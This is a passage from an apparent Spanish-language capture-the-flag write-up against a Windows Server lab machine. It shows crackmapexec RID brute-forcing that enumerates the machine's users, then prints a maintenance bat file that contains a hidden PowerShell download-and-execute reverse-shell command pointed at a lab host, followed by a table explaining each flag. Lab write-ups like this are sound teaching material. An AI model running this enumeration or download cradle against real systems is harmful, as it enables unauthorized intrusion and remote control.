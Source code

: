 Lo que sí podemos hacer, es enumerar los usuarios existentes en la máquina víctima:
```bash
crackmapexec smb 192.168.1.210 -u 'guest' -p '' --rid-brute
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:WIN-VRU3GG3DPLJ) (signing:False) (SMBv1:True)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  [+] WIN-VRU3GG3DPLJ\guest: 
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  [+] Brute forcing RIDs
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  500: WIN-VRU3GG3DPLJ\Administrador (SidTypeUser)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  501: WIN-VRU3GG3DPLJ\Invitado (SidTypeUser)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  503: WIN-VRU3GG3DPLJ\DefaultAccount (SidTypeUser)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  513: WIN-VRU3GG3DPLJ\Ninguno (SidTypeGroup)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  1000: WIN-VRU3GG3DPLJ\Omar (SidTypeUser)
SMB         192.168.1.210  445    WIN-VRU3GG3DPLJ  1001: WIN-VRU3GG3DPLJ\0mar (SidTypeUser)
```
Tenemos al **usuario 0mar**, pero no tenemos su contraseña.

Ya no podremos hacer más, por lo que mejor analizamos los archivos que descargamos.

<br>

<h2 id="batFiles">Analizando Scripts bat</h2>

Veamos qué contiene el script **mantenimiento.bat**:
```bash
cat mantenimiento.bat
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo m�s aqu�...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit
```
Parece que este script que se ejecuta cada minuto y ejecuta un **archivo ps1** de un servidor remoto, y por lo que entiendo, está ejecutando una **Reverse Shell**.

Seamos más específicos:

| Opción                          | Descripción |
|---------------------------------|-------------|
| `powershell`                    | Ejecuta PowerShell. |
| `-NoP` (`-NoProfile`)           | No carga el perfil del usuario de PowerShell. |
| `-NonI` (`-NonInteractive`)     | Ejecuta PowerShell en modo no interactivo. |
| `-W Hidden`                     | Oculta la ventana de PowerShell. |
| `-Exec Bypass`                  | Omite la política de ejecución de scripts de PowerShell. |
| `-Command`                      | Ejecuta el siguiente comando de PowerShell. |
| `iex(...)` (`Invoke-Expression`) | Ejecuta el código descargado como si fuera parte del script. |
| `(New-Object Net.WebClient)`     | Crea un objeto `Net.WebClient` para descargar datos por HTTP. |
| `.DownloadString('http://192.168.1.36:8000/shell.ps1')` | Descarga y ejecuta `shell.ps1` desde el servidor remoto. |

